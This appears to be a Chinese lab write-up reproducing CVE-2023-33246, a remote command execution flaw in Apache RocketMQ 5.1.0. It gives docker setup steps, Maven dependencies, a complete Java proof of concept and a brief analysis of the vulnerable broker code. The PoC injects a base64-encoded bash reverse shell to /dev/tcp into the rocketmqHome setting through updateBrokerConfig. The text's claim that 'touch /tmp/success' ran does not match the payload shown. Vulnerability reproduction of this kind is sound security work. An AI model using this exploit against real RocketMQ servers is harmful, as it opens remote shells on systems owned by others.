 Apache RocketMQ 远程命令执行漏洞（CVE-2023-33246）
========================================

Apache RocketMQ是一个分布式消息平台。

在其5.1.0版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

参考链接：

- <https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp>
- <https://github.com/I5N0rth/CVE-2023-33246>

启动
--

执行如下命令启动一个RocketMQ 5.1.0:

```shell
docker compose up -d
```

漏洞复现
----

使用`IDEA`或`Eclipse`等`IDE`新建一个`Maven`项目，导入依赖：

```xml
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC如下：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.227.128";
        String targetPort = "10911";

        String shellHost = "192.168.227.128";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

在控制台成功输出新的配置后，请等待30秒左右，将可以看到`touch /tmp/success`已成功被执行：

![](https://shs3.b.qianxin.com/butian_public/f682788e8261bc635e8fc6ddc1d0362b97d6c466e1485.jpg)

简单分析
----

为什么要修改`filterServerNums`属性：如果配置的`filterServerNums`为0，计算得出的`more`也会是0，因此无法进入`callShell`方法执行命令。

```java
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

为什么要修改`rocketmqHome`属性：在构建命令的时候，最终会调用`splitShellString`方法按照空格对参数进行分割，所以不可以是`NamesrvAddr`参数，只能是开头的`rocketmqHome`参数，但是由于参数分割规则，所以需要更严格的命令和巧妙的技巧才可以执行。

```java
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```